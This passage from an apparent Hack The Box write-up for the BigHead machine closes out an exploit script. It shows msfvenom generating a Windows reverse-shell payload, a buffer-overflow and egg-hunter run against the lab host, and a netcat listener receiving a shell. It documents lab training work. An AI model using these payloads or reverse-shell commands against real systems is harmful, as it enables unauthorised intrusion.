      77 print("[*] Expect callback in 0-15 minutes to %s:%s." % (cb_ip, cb_port))
     78 p = remote(target, port)
     79 p.sendline(exec_payload)
     80 sleep(1)
     81 p.recv()
     82 p.close()
    

Comments:

  * Lines 15-48 are just about generating the shellcode and cleaning up.
  * Lines 50-73 set up the upcoming web requests.
  * Lines 65-72 send the POST with the shell 5 times
  * Lines 77-83 send the HEAD with the egg hunter payload.

In hindsight, I didn’t really use the `pwntools` stuff, and I wish I had just
built it with `requests`.

But, it works:

    
    
    root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
    [*] Generating shellcode:
        msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
    [+] Shellcode generated successfully
    [*] Sending payload 5 times
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Payload sent.
    [*] Sleeping 1 second.
    [*] Sending overflow + egghunter.
    [*] Expect callback in 0-15 minutes to 10.10.14.14:443.
    [+] Opening connection to dev.bighead.htb on port 80: Done
    

A few minutes later:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.112.
    Ncat: Connection from 10.10.10.112:49200.
    Microsoft Windows [Version 6.0.6002]
    Copyright (c) 2006 Microsoft Corporation.  All rights reserved.
    
    C:\nginx>whoami
    piedpiper\nelson
    

[« BigHead Walkthrough](/2019/05/04/htb-bighead.html)

[](/2019/05/04/htb-bighead-bof.html)

